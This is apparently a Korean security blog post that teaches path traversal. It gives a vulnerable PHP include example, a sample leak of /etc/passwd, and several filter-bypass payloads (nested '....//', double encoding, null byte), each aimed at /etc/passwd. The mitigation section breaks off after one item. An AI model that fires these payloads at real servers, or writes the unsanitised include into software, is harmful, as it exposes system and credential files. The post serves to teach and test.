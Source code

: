 ```yaml
---
layout: single
title: Path Traversal
categories: Web-vuln
tag: [Path Traversal, web, web vulnerability, injection]
toc: true
author_profile: false
---
```

# Path Traversal 이란 무엇인가?

> ./(현재 디렉토리) 또는 ../(상위 디렉토리로 이동)를 나타내는 문자들이 제대로 필터링되지 않아 파일 시스템 API로 전달되어, 허용된 디렉토리가 아닌 숨겨진 디렉토리 및 파일에 대한 무단 access를 가능하게 하는 취약점이며, 보통 File 명과 같이 사용자의 입력값이 전달되어, 찾아오는 로직에서 많이 발견된다.

<hr>

- **Vulnerability Code**

```php
<?php
$template = 'red.php';
if (isset($_COOKIE['TEMPLATE'])) {
    $template = $_COOKIE['TEMPLATE'];
}
include "/home/users/phpguru/templates/" . $template;

인용 : https://en.wikipedia.org/wiki/Directory_traversal_attack
```

위와 같은 File을 가져오는 로직이 구성되어있다고 생각해보자. 그럼 사용자의 입력값이 include "/home/users/phpguru/templates/" . 뒤에 고스란히 이어붙여 진다. 이 때 디렉토리 이동 명령어가 필터링 되어 제거되지않고 적용된다면 어떻게 될까?
<br><br>

```
GET /vulnerable.php HTTP/1.0
Cookie: TEMPLATE=../../../../../../../../../etc/passwd
```

```
HTTP/1.0 200 OK
Content-Type: text/html
Server: Apache

root:fi3sED95ibqR6:0:1:System Operator:/:/bin/ksh 
daemon:*:1:1::/tmp: 
phpguru:f8fk3j1OIf31.:182:100:Developer:/home/users/phpguru/:/bin/csh
```

위와같이 passwd 파일을 탈취 될 수 있으며, 큰 피해로 이어질 수 있다.
<br><br>
이러한 취약점은 파일 경로에서 불러오는 경우와, API 요청을 통해 불러올 수도 있다.

```
/var/www/images/test.png/../../../etc/passwd

'''

https://insecure-test.com/findimage?filename=../../../etc/passwd
```

## 공격 표면

🌝 **<u>Path Traversal 취약점은 어떤 부분에서 나타나고 테스팅 해볼 수 있을까</u>** 
{: .notice--primary} 
<hr>
사용자의 요청이 서버내의 path로 연결되는 구간, API 요청에 의해 파일값을 불러오는 구간이 공격표면이 될 수 있다. 
<br>
./ 또는 ../ 와 같은 경로이동 문자열을 넣어봄으로써 응답값이 어떻게 돌아오는지 확인하면 Path Traversal 취약점이 존재하는지에 대한 유무 판단이 가능하다.

```
/var/www/images/test.jpg -> 200(ok)
/var/www/images/.test.jpg -> 200(ok)
/var/www/images/../images/test.jpg -> 200(ok)
```

하지만 위의 테스팅에서 200ok 를 받는다고 무조건 Path Traversal 취약점이 존재한다고 확신하기에는 불분명 하다.
<br>
이는 ./ 문자를 Path 그대로 받아들이는지 ./문자를 필터링하여 제거시켰는지에 대해 확실치 않기 때문이다.
<br>
이런 경우 ..//와 같이 ./가 제거되더라도 ..// → ./ 되기 때문에 테스팅해볼만하다.

```
/var/www/images/..//test.jpg
```

**<u>만약 위의 테스트 결과가 404(Not Found) 가 뜬다면 이는 ./ 문자열이 제거가 되지 않는다는것을 의미한다.  200 ok가 반환 되더라도, ./가 필터링 되어 ./가되거나 아니면 이러한 제거로직을 반복구성 해놓았을 가능성도 존재한다.</u>**

## Bypass - Path Traversal
### Basic Bypass

```
GET /image?filename=../../../etc/passwd 200 (ok)
```

경로 이동 문자열을 통해 파일 시스템 서버의 최상단으로 올라가 passwd파일을 추출한다.

### Traversal sequences blocking

./ ../ 와 같은 시퀀스를 차단하는 로직이 구현되어 있더라도, 파일 시스템이 절대경로를 통해 파일을 가져올 경우 경로 이동 문자열 없이 원하는 파일을 가져올 수 있다.

```
GET /image?filename=/etc/passwd HTTP/2 200 (ok)
GET /image?filename=../../../etc/passwd HTTP/2 400 Bad Request
```

### Traversal sequences blocking2

../ 시퀀스가 필터링 되어 차단되더라도 ….// 문자열을 입력했을 때 로직이 반복적으로 탐지하여 차단하는 경우가 아니라면 ../ 가 사라지고 ….// → ../가 남아 우회가능성이 존재한다.

```
GET /image?filename=../../../etc/passwd HTTP/2 400 Bad Request
GET /image?filename=....//....//....//etc/passwd HTTP/2 200 (ok)
```

### Traversal sequences blocking3

입력값 검증 후 제거하는 로직이 반복적으로 순회하도록 되어있을 경우, URL 인코딩 Double 인코딩
또는 비표준 인코딩 등을 사용하여 우회할 수 있다.

```
GET /image?filename=..%252f..%252f..%252fetc/passwd HTTP/2 200 (ok)
```

### 정해진 위치에서부터의 경로 탐색

개발자가 특정 파일을 찾기위해서는 개발자가 정해놓은 특정 위치에서부터 절대경로로 검색해야 찾을 수 있도록 설정해놨을 경우도 존재한다.

```
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/2
```

### 만약 파일시스템에서 특정 확장자로 끝나는지에 대한 검증 로직이 존재한다면?

null 바이트 문자를 이용하여 우회할 수 있다.

```
GET /image?filename=../../../etc/passwd%00.jpg HTTP/2 200(ok)
```

<br><hr>
<div class="notice">
  <h4>이러한 진입점들을 잘 찾아내는것이 중요하다. 파일의 본문내용을 경로로 사용되는 부분도 존재하며, 요청값과 응답값을 잘 확인하자.</h4>
</div>
<hr>

# 대응 방안
1. 입력값에 대한 유효성 검사.
2. 

# Referance
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal